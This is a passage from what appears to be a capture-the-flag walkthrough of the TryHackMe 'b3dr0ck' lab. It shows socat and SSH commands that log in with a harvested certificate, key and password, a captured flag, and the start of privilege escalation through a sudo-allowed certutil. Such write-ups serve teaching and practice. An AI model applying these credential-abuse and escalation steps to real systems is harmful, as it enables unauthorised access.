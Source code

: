 ```
YDVoAJBi0Yj+FJ3p39O1YRZhDrWjeKjjqjrLbdivjd1IFKOYRWE33GBeXWiXjbkv
u4R63S15djoh7frGYIMiOhhSYA1dTpBe+Bm2hT9oraf6MC4y/Wv4HYCkyw9j+RUz
fX1lAyY=
-----END CERTIFICATE-----
```

* Typing in `help` also shows how we can connect using the obtained information:
```bash
socat stdio ssl:MACHINE_IP:54321,cert=<CERT_FILE>,key=<KEY_FILE>,verify=0
```

We can connect:
```bash
socat stdio ssl:10.10.108.130:54321,cert=barney.cert,key=barney.key,verify=0
```
* This gives us a prompt for getting ssh login hints:
```
b3dr0ck> login
Login is disabled. Please use SSH instead.
b3dr0ck> password
Password hint: d1ad7c0a3805955a35eb260dab4180dd (user = 'Barney Rubble')
```

### ssh
* We can connect by first fixing the permissions on the key:
	* `chmod 600 barney.key`

* We can then connect with `ssh barney@10.10.108.130 -i barney.key` and using the password `d1ad7c0a3805955a35eb260dab4180dd`


* `cat ~/barney.txt` gives us the flag `THM{f05780f08f0eb1de65023069d0e4c90c}`


# Privesc
* We can run `sudo -l` and enter barney's password - `d1ad7c0a3805955a35eb260dab4180dd` to see sudo permissions:

```bash
Matching Defaults entries for barney on b3dr0ck:
    insults, env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User barney may run the following commands on b3dr0ck:
    (ALL : ALL) /usr/bin/certutil
```
* Barney can run `certutil` as root, meaning they can generate the ssh key and certificate for fred

### certutil
* `certutil` gives us the following usage:
```
Cert Tool Usage:
----------------

Show current certs:
  certutil ls

Generate new keypair:
  certutil [username] [fullname]
```
